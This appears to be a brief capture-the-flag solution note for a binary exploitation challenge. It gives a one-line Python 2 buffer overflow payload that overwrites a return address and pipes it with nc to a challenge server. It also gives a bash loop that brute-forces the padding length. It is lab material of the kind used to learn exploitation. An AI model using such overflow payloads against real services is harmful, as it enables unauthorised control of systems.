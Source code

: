 

#exploit

```bash
python2 -c "print 'a'*40+'\x08\x07\x40\x00\x00\x00\x00\x00'" | nc pwn.zh3r0.ml 3456
```


#bf the overflow

```bash
for i in {30..45}; do echo $i; python2 -c "print 'a'*$i+'\x08\x07\x40\x00\x00\x00\x00\x00'" | nc pwn.zh3r0.ml 3456 ; done
```
